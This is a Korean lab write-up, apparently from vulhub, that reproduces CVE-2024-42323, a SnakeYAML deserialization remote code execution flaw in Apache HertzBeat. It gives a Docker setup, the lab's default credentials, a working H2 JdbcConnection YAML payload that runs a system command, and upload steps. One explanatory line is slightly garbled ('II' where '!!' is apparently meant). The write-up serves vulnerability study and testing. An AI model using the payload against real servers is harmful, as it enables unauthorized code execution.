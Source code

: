 ### Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

### 요약

Apache HertzBeat는 오픈소스 실시간 모니터링 및 경고 도구로, 운영 체제, 미들웨어, 데이터베이스 등을 웹 인터페이스를 통해 모니터링할 수 있습니다. 버전 1.6.0 이전의 HertzBeat는 YAML 파일을 파싱할 때 취약한 SnakeYAML 라이브러리를 사용하고 있습니다. 이로 인해, 인증된 사용자가 /api/monitors/import 또는 /api/alert/defines/import API를 통해 새로운 모니터링 타입을 임포트할 때 조작된 YAML 파일을 업로드하면 신뢰되지 않은 객체가 역직렬화되며, 원격 코드 실행(RCE)이 발생할 수 있습니다. 

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/hertzbeat/CVE-2024-42323/README.zh-cn.md)


<br>

### 환경 구축

터미널에서 다음 명령어로 취약한 HertzBeat 1.4.4 버전을 실행합니다:

`docker compose up -d`

브라우저에서 http://<your-ip>:1157/dashboard로 접속할 수 있으며, 기본 로그인 정보는 다음과 같습니다:

![docker compose 실행 화면](images/docker_compose_up.png)

![hertzbeat 로그인 화면](images/hertzbeat_login.png)

- 아이디: admin
- 비밀번호: hertzbeat


<br>

### 취약점 재현 (공격 설명)

#### 1단계: 악성 YAML 파일 생성

파일명은 반드시 .yaml 확장자를 가져야 하며, 아래처럼 생성합니다.

`!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]`

![.yaml 파일 생성 화면](images/create_malicious_yaml.png)

- SnakeYAML은 II로 시작되는 Java 객체를 역직렬화합니다.
- 위 페이로드는 **org.h2.jdbc.JdbcConnection 객체를 생성**하며, 내부적으로 **H2 데이터베이스의 INIT 명령어**를 통해 시스템 명령어(touch /tmp/success)를 실행하게 만듭니다.
- 결국 Runtime.getRuntime().exec(...)로 시스템 명령이 실행되어 **RCE(원격 코드 실행)** 가 발생합니다.



#### 2단계: YAML 파일 업로드

HertzBeat 대시보드에 로그인 후, 모니터링 설정 화면으로 이동합니다.

![import 화면](images/yaml_import_screen.png)



1. "import" 버튼을 클릭한다.
2. 위에서 만든 악성 YAML 파일을 업로드한다.



#### 3단계: 코드 실행 확인

파일이 업로드되면서 SnakeYAML이 역직렬화를 수행하고, 내부에서 명령어가 실행됩니다.

페이로드의 경우, /tmp/success 파일을 생성하므로, 다음 명령어로 확인할 수 있습니다:

`docker exec -t <컨테이너 ID> ls /tmp`

![sucess 화면](images/success_file_created.png)






<br>

### 참고 자료

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
- [https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md](https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml反序列化漏洞(CVE-2024-42323).md)
